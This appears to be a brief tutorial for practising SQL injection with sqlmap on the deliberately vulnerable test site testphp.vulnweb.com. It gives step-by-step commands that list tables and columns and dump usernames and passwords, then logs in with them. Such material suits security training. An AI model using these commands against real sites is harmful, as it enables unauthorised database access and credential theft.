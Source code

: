 SQL injection using sql map :

1) go to sqlmap in kali

2) go to root terminal of kali 

3) search vulnerable website from browser 
http://testphp.vulnweb.com/artists.php?artist=1 

4) we will get 2 databases we can use anyone from them , lets do using acuate

5) sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1  -D acuart --tables

6) to get no of columns : 
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1  -D acuart -T users --columns

7) To get username: sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1  -D acuart -T users -C uname --dump

8) To get password: sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1  -D acuart -T users -C pass --dump

9) similarly do for email and whatever table info you want

10) open vulnweb website put username and password and you can get info about database
